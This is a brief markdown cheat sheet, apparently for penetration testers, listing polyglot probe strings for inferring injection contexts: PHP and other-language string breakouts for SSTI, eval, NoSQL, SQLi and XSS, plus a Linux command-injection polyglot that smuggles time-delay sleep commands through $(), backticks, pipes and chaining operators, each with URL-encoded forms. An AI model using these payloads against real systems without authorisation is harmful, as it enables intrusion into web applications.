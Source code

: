 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:'` then output should be: `hello@(\${{[%<%"."> (concats ')` && `Surrounding string:"` then output should be: `hello'.'@(${{[%<%> concats(")`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:'` then output should be: `Generic Error Message (Fails to concat)` && `Surrounding string: "` then output should be `hello@(${{[%<%'**'> (Concats)`

###  Urlencoded Version

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## OSCMDi context aware for Linux

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

### Urlencoded Version

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

Works in raw format, between `'` or `"`.
